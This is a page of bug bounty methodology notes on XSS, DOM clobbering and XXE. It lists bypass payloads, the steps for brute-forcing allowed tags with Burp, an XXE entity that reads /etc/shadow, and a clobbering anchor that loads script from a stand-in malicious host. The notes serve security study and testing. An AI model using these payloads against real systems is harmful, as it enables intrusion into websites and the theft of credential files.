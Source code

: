 # Xss

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Theory
### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> types
#### Stored (Persistent) 
XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

#### Reflected (Non-Persistent) XSS 	
Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)


#### DOM-based XSS 	Another Non-Persistent 
XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)


### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> Source & Sink

To further understand the nature of the DOM-based XSS vulnerability, we must understand the concept of the Source and Sink of the object displayed on the page. The Source is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.

On the other hand, the Sink is the function that writes the user input to a DOM Object on the page. 
```
    document.write()
    DOM.innerHTML
    DOM.outerHTML

jQuery library functions that write to DOM objects are:
    add()
    after()
    append()
```

------------------------------------------

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> xss bypass
### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> innerHTML 
The innerHTML function does not allow the use of the <script> tags within it as a security feature
```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```
As alternative it can be used something like
```javascript
<img src="" onerror=alert(window.origin)>
```

### <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/gun1.png" width="40" height="20"> else
```js
<<a|ascript>alert('xss')</script>
```

##  Deprecated Interface XXE injection
Use a deprecated B2B interface that was not properly shut down. XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.
- search xxe payload
- look for POST requests
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&xxe;</lastName>
</userInfo>
```
--------------------------------------------

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Tags bruteforcing
- [How to search for XSS (with blacklisted HTML tags)](https://www.youtube.com/watch?v=0kfQsRwr_Bc)
- [portswigger/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### steps 
Searching for allowed tags to be inserted in the search field as parameter
1. 'insertpayloadhere' in the field
2. intercept with burp and send to intruder
3. add the tag list to the payload in the intruder settings
4. brute force and look for the 200, we're looking for a tag which allow to have <script> </script>
5. once the tag has been found you need to search for the event eg:onbegin
6. in the search field we will use url encoding: 
```
%3C -> < 
%3E -> >
%20 -> space
%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert%28%22xss%22%29%3E
```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Waf bypass with anchor
- [Two solutions for the January 2021 Initigriti XSS Challenge](https://www.youtube.com/watch?v=Wbovgw3Qxxc)
```
onmouseover=alert(document.location.has.substring(1))#payloadhere
```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> DOM XSS
```
 <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay"
 src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&
 auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
 ```

## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80">  Exploiting DOM clobbering to enable XSS
- [Two solutions for the January 2021 Initigriti XSS Challenge]([https://www.youtube.com/watch?v=Wbovgw3Qxxc](https://youtu.be/Wbovgw3Qxxc?t=912))
- [portswigger/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [portswigger/dom-based/Advanced-dom-clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)
- [HTMLCollection](https://developer.mozilla.org/en-US/docs/Web/API/HTMLCollection)

#### Clobbering definition:
To strike violently and repeatedly; batter or maul. But, In software engineering and Computer science, clobbering a file, Processor register or regions of computer memory is the process of overwriting its contents completely. 

#### Explanation:
~~DOM clobbering is a technique to escalate HTML injection to XSS which has a high impact  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.~~
DOM Clobbering use the HTMLCollection vulnerability which allow you to add to the HTMLCollection a malicious item with the same id. 
#### Steps:
1. find a form where you can submit some html
2. check in the javascript if there is a ```window.element || something here``` 
3. bypass the sanitization with double anchortag
  - ```<a id=defaultAvatar><<a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)//)"'>```
  - ```<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>```


## <img src="https://raw.githubusercontent.com/1-off/Bugbounties-methodology-notes/main/mandalorian.png" width="80" height="80"> Videos:
- xss API [video](https://youtu.be/xH8WbuApFXw?t=2358)
  - filtering and sanitazation come frontend back end.
  - Always test that frontend and backend are sanitized.
  - eg: registering an account by API with email.
- [w3schools.com/xml](https://www.w3schools.com/xml/xml_dtd.asp)
- [XXE Lab Breakdown: Exploiting XXE using external entities to retrieve files](https://www.youtube.com/watch?v=71dZaGfOVqw)
- [How to search for XXE!](https://www.youtube.com/watch?v=0DQnWalxYb4)
- [Web App Testing: Episode 3 - XSS, SQL Injection, and Broken Access Control](https://www.youtube.com/watch?v=azYwfI26oXo&list=PLLKT__MCUeixCoi2jtP2Jj8nZzM4MOzBL&index=3)


 
